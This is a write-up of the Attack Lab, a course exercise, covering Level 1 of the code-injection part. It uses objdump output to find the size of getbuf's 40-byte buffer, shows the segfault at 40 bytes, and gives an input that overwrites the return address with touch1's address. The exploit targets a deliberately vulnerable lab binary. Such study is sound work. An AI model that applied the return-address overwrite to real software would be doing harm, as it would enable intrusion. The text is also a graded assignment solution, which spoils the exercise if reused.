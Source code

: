 # Attack lab

By Adrian Borup (adbo@itu.dk).

## Part I: Code Injection Attacks

### Level 1

We start by inspecting the assembly to find the address of the `touch1` function:

```asm
$ objdump -D ctarget | grep -A 14 "<touch1>"
0000000000402698 <touch1>:
  402698:       f3 0f 1e fa             endbr64
  40269c:       50                      push   %rax
  40269d:       58                      pop    %rax
  40269e:       48 83 ec 08             sub    $0x8,%rsp
  4026a2:       c7 05 50 82 0f 00 01    movl   $0x1,0xf8250(%rip)        # 4fa8fc <vlevel>
  4026a9:       00 00 00
  4026ac:       48 8d 3d 58 5c 0c 00    lea    0xc5c58(%rip),%rdi        # 4c830b <_IO_stdin_used+0x30b>
  4026b3:       e8 a8 a2 01 00          callq  41c960 <_IO_puts>
  4026b8:       bf 01 00 00 00          mov    $0x1,%edi
  4026bd:       e8 f4 04 00 00          callq  402bb6 <validate>
  4026c2:       bf 00 00 00 00          mov    $0x0,%edi
  4026c7:       e8 64 fb 00 00          callq  412230 <exit>

00000000004026cc <touch2>:
```

Our goal is now to overwrite the return address after `getbuf` so it points to `0x402698`. We want to know the size of the stack frame so we can overwrite the return address. Let's check out `getbuf`'s assembly code:

```asm
$ objdump -D ctarget | grep -A 9 -m 1 "<getbuf>"
000000000040267e <getbuf>:
  40267e:       f3 0f 1e fa             endbr64
  402682:       48 83 ec 28             sub    $0x28,%rsp
  402686:       48 89 e7                mov    %rsp,%rdi
  402689:       e8 b5 02 00 00          callq  402943 <Gets>
  40268e:       b8 01 00 00 00          mov    $0x1,%eax
  402693:       48 83 c4 28             add    $0x28,%rsp
  402697:       c3                      retq

0000000000402698 <touch1>:
```

At instruction `0x40267e`, we can see an integer constant `$0x28`, which is 40 in base 10. The return address, `%rsp`, is decremented with these 40 bytes - therefore our stack frame must be 40 bytes in size. We can confirm this by seeing if the program starts to misbehave between 39 and 40 bytes of input:

```sh
# File contains 39 bytes:
$ cat inp.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00

# Pipe 39 bytes into the program:
$ cat inp.txt | ./hex2raw | ./ctarget
Cookie: 0x5d21660e
Type string:No exploit.  Getbuf returned 0x1
Normal return

# Pipe one more byte into the program:
$ (cat inp.txt; echo " 00") | ./hex2raw | ./ctarget
Cookie: 0x5d21660e
Type string:Ouch!: You caused a segmentation fault!
Better luck next time
FAILED
```

Yup! Boom. The segfault happens when we feed 40 bytes. Therefore, let's try to add another word (8 bytes) to the input so those bytes will overwrite the return address:

```diff
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
+ 98 26 40 00 00 00 00 00
```

Here we've inserted the address of `touch1` (with the bytes reversed to obtain little-endian order). By feeding this to the vulnerable program, we see that the return address is indeed overwritten, and the instructions from `touch1` are executed:

```sh
$ ./hex2raw < inp.txt | ./ctarget
Cookie: 0x5d21660e
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
